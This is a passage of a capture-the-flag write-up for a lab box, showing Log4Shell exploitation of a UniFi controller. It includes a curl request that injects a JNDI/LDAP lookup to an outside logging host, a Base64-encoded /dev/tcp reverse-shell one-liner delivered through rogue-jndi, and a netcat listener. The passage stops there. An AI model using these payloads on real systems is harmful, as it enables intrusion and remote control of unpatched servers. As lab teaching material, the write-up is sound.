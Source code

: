 # Unified Write-up

#Vulnerability Assessment
#Databases
#Custom Applications
#MongoDB
#Java
#Reconnaissance
#Clear Text Credentials
#Default Credentials
#Code Injection

## Introduction

This writeup explores the effects of exploiting Log4J in a very well known network appliance monitoring
system called "UniFi". This box will show you how to set up and install the necessary packages and tools to
exploit UniFi by abusing the Log4J vulnerability and manipulate a POST header called remember , giving you
a reverse shell on the machine. You'll also change the administrator's password by altering the hash saved
in the MongoDB instance that is running on the system, which will allow access to the administration panel
and leads to the disclosure of the administrator's SSH password.

## Enumeration

1. **Scan with Nmap**:
    - `nmap -sV -sC {TARGET_IP}`
    - **Port 22/tcp**: OpenSSH 8.2p1 (Ubuntu 4ubuntu0.3) This port is used for secure shell (SSH) access, providing encrypted communication and remote login capabilities. The scan also reveals the SSH host keys (RSA, ECDSA, ED25519).

    - **Port 6789/tcp**: IBM DB2 Administration Service (?) - This port appears to be related to IBM DB2 database administration, though the specific service version could not be determined.

    - **Port 8080/tcp**: HTTP Proxy - This port is open and running an HTTP proxy service. The service might be redirecting requests, as indicated by the HTTP responses (302 redirects and 404 not found). The title suggests it redirects to https://10.129.83.18:8443/manage.

    - **Port 8443/tcp**: SSL/Nagios NSCA - This port is running a Nagios NSCA service over SSL, which is commonly used for monitoring and alerting. The SSL certificate details indicate it is for a UniFi network management interface, with a certificate valid from December 30, 2021, to April 3, 2024.

2. **CVE-2021-44228**

CVE-2021-44228, also known as "Log4Shell," is a critical security vulnerability in the Apache Log4j 2 library, a widely used Java-based logging utility. This vulnerability has been highly publicized due to its severity and the widespread use of Log4j in various software applications and services

**JNDI** is the acronym for the Java Naming and Directory Interface API . By making calls to this API,
applications locate resources and other program objects. A resource is a program object that provides
connections to systems, such as database servers and messaging systems.

**LDAP** is the acronym for Lightweight Directory Access Protocol , which is an open, vendor-neutral,
industry standard application protocol for accessing and maintaining distributed directory information
services over the Internet or a Network. The default port that LDAP runs on is port 389 .

- Test vulnerability
```
curl -i -s -k -X POST -H $'Host: 10.129.83.18:8443' -H $'Content-Length: 104' --data-binary $'{\"username\":\"a\",\"password\":\"a\",\"remember\":\"${jndi:ldap://eb0uvi.dnslog.cn:1389/o=tomcat}\",\"strict\":true}' $'https://10.129.83.18:8443/manage/account/login'

HTTP/1.1 200 
X-Frame-Options: SAMEORIGIN
vary: accept-encoding
Accept-Ranges: bytes
Last-Modified: Tue, 14 Sep 2021 12:14:41 GMT
Cache-Control: max-age=0
Expires: Thu, 27 Jun 2024 11:21:02 GMT
Content-Type: text/html
Content-Length: 1325
Date: Thu, 27 Jun 2024 11:21:02 GMT
```

## Atack target 
Now that you know the target is vulnerable, we are going to try and get a reverse shell so we can interact with the underlying Linux operating system. First, you need to clone and build the tool, rogue-jndi from the GitHub repository linked below:

- `git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package`

Once the Jar is compiled, you’ll have to craft a command to deliver the reverse shell. Unlike vCenter, we don’t have nc out of the box. Let’s craft our reverse shell and Base64 encode it using the one-liner below. Modify the command to fit your needs, replacing the IP address and port.

- `echo 'bash -c bash -i >&/dev/tcp/{tun0}/4444 0>&1' | base64`

With that Base64 output, build your command in rogue-jndi:

- `java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTkyLjE2OC4xMS41MC80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}" --hostname "{tun0}"`

Now that the server is listening locally on port 389 , let's open another terminal and start a Netcat listener to
capture the reverse shell.

- `nc -lvp 4444`



